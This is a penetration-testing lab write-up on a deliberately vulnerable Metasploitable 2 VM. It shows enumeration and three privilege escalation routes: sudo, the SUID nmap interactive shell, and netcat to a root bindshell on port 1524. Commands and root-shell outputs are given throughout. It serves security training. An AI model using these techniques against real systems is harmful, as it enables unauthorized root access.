










# Metasploitable Lab 12 — Multi-Vector Enumeration and Three Paths to Root

## Objective

The objective of this lab was to perform deep system enumeration to identify multiple independent privilege escalation paths, demonstrating how a single system can be fully compromised through different attack vectors.

This lab represents a culmination of previous techniques, focusing on analysis, correlation, and decision-making rather than reliance on a single exploit.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology

Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Nmap | Service enumeration |
| SSH | Authenticated access |
| Netcat (nc) | Service interaction |
| Linux commands | Local enumeration and analysis |

---

# Step 1 — Service Enumeration

A full service scan was performed:

nmap -sV 192.168.56.3

---

## Key Findings

22/tcp   open  ssh  
80/tcp   open  http  
445/tcp  open  samba  
1099/tcp open  java-rmi  
1524/tcp open  bindshell  
3306/tcp open  mysql  
5432/tcp open  postgresql  
6667/tcp open  irc  
8180/tcp open  tomcat  

---

## Analysis

- Multiple high-risk services identified  
- Presence of legacy and insecure services  
- Port `1524` stood out as unusual and high-value  

---

# Step 2 — Initial Access via SSH

## Credentials Used

msfadmin  
msfadmin  

## Command Used

ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.56.3

---

## Result

Login successful:

msfadmin@metasploitable:~$

---

## Analysis

- Stable authenticated access obtained  
- Demonstrates risk of default credentials  
- Provided a foothold for deeper local enumeration  

---

# Step 3 — Local Enumeration

## Commands Used

whoami  
id  
sudo -l

---

## Output

whoami → msfadmin  
id → uid=1000(msfadmin) gid=1000(msfadmin)  
sudo -l → User may run (ALL) ALL  

---

## Analysis

- Full sudo privileges were available  
- This provided one direct path to root  
- However, the objective of the lab was to continue enumerating for alternative paths rather than taking the obvious route immediately  

---

# Step 4 — PostgreSQL Service Investigation

## Initial Attempt

psql -U postgres

---

## Result

FATAL: Ident authentication failed for user "postgres"

---

## Additional Enumeration

cat /etc/passwd | grep postgres  
ps aux | grep postgres  
ls -la /etc/postgresql/8.3/main/pg_hba.conf

---

## Findings

- A dedicated `postgres` user exists  
- PostgreSQL is running as the `postgres` user  
- Authentication is controlled through ident rules  
- `pg_hba.conf` is owned by `postgres:postgres` and not readable or writable by `msfadmin`  

---

## Analysis

- Direct local PostgreSQL access was blocked  
- Authentication controls were identified and understood  
- This path was investigated and ruled out as an immediate privilege escalation route  

---

# Step 5 — Cron Job Analysis

## Commands Used

ls -la /etc/cron*  
cat /etc/cron.d/postgresql-common  
cat /etc/cron.daily/apache2  
cat /etc/cron.daily/tomcat55  
cat /etc/cron.daily/samba  

---

## Findings

- Multiple cron jobs were running as root  
- Scripts used absolute paths  
- No writable or user-controlled files were referenced  
- No exploitable cron path was identified  

---

## Analysis

- Cron jobs were correctly evaluated as a potential escalation vector  
- No abuse path was available in the scripts examined  
- This demonstrated the importance of validating likely vectors rather than assuming exploitability  

---

# Step 6 — Scheduled Task Testing with `at`

## Command Used

at now + 1 minute

Payload entered:

id > /tmp/test

---

## Verification

cat /tmp/test

---

## Output

uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)

---

## Analysis

- The scheduled task executed as the current user, not as root  
- `at` was therefore ruled out as a privilege escalation path in this environment  
- This was an example of testing a plausible path, observing behaviour, and eliminating it  

---

# Step 7 — SUID Enumeration

## Command Used

find / -perm -4000 -type f 2>/dev/null

---

## Key Findings

/usr/bin/nmap  
/usr/bin/sudo  
/usr/lib/apache2/suexec  
/usr/bin/at  
/usr/bin/passwd  
/usr/bin/chsh  
/usr/bin/chfn  
/usr/bin/newgrp  

---

## Analysis

- Several SUID binaries were present  
- Some binaries were standard and not immediately useful  
- `suexec` was investigated but could not be executed by `msfadmin` because it was only executable by the `www-data` group  
- `at` was tested and ruled out as an escalation vector  
- `nmap` remained a valid escalation path due to its interactive mode in older versions  

---

# Step 8 — Privilege Escalation via SUID Nmap

## Command Used

nmap --interactive

Inside Nmap:

!sh

---

## Verification

whoami  
id  

---

## Output

whoami → root  
id → uid=0(root) gid=0(root)

---

## Analysis

- Nmap interactive mode successfully spawned a root shell  
- This provided a second independent path to root  
- Demonstrates how dangerous SUID misconfiguration can be on legacy systems  

---

# Step 9 — Inetd Service Enumeration

## Command Used

cat /etc/inetd.conf

---

## Critical Finding

ingreslock stream tcp nowait root /bin/bash bash -i

---

## Analysis

- A service entry named `ingreslock` was configured in `inetd.conf`  
- It was set to execute `/bin/bash` as root  
- This strongly suggested that an exposed network service was providing direct shell access  
- Correlating this with the earlier scan pointed to port `1524`, previously identified as a bindshell  

---

# Step 10 — Exploitation of Root Bindshell on Port 1524

## Command Used

nc 192.168.56.3 1524

---

## Verification

whoami  
id  

---

## Output

whoami → root  
id → uid=0(root) gid=0(root)

---

## Analysis

- Immediate root shell obtained over the network  
- No authentication required  
- No exploit payload required  
- This represented a critical insecure service configuration and a third independent root path  

---

# Security Concepts Learned

This lab demonstrated several advanced concepts:

- **Deep Enumeration** — Moving beyond simple scanning into local service and configuration analysis  
- **Configuration Auditing** — Identifying insecure settings in `inetd.conf`, cron jobs, and PostgreSQL configuration  
- **Privilege Escalation Validation** — Testing multiple possible paths and ruling them in or out based on evidence  
- **SUID Abuse** — Using a misconfigured legacy binary to spawn a root shell  
- **Service Correlation** — Matching local configuration with externally exposed ports  
- **Legacy Service Risk** — Understanding how insecure or forgotten services can result in full compromise  
- **Methodical Elimination** — Investigating PostgreSQL, cron, and `at` before identifying the final root path  

---

# Lessons Learned

- A system may contain multiple independent routes to root  
- Enumeration is often more valuable than exploitation  
- Not every plausible path is exploitable, and validation is essential  
- Local configuration files can reveal hidden or forgotten network services  
- Legacy services and SUID binaries create major security risk  
- Strong methodology comes from investigating and eliminating attack paths systematically  
- Real-world compromise often comes from misconfiguration rather than software exploits alone  

---

# Final Outcome

- Initial shell access obtained via SSH using default credentials  
- PostgreSQL authentication path investigated and ruled out  
- Cron jobs analyzed and ruled out as a practical escalation vector  
- `at` tested and ruled out as a root execution path  
- SUID binaries enumerated and analyzed  
- Root shell obtained via SUID Nmap interactive mode  
- `inetd.conf` analyzed and a root bindshell service identified  
- Root shell obtained over the network via port 1524  
- Multiple independent paths to root confirmed on the same system  

---

# Conclusion

This lab demonstrated a full-spectrum assessment of a vulnerable host by identifying and validating multiple independent root compromise paths. Rather than relying on a single exploit, the process involved careful enumeration, rejection of dead ends, local configuration analysis, and correlation between system files and exposed services.

The most important finding was the discovery of a root-level bindshell through `inetd.conf`, which provided direct root access over port `1524`. Combined with the SUID Nmap path and the available sudo permissions, this showed that the system was not vulnerable in just one way, but across several layers of configuration and service design.

This makes the lab a strong final exercise because it demonstrates not just exploitation, but mature attacker methodology: enumerate deeply, test hypotheses, eliminate weak paths, and identify the most decisive route to full compromise.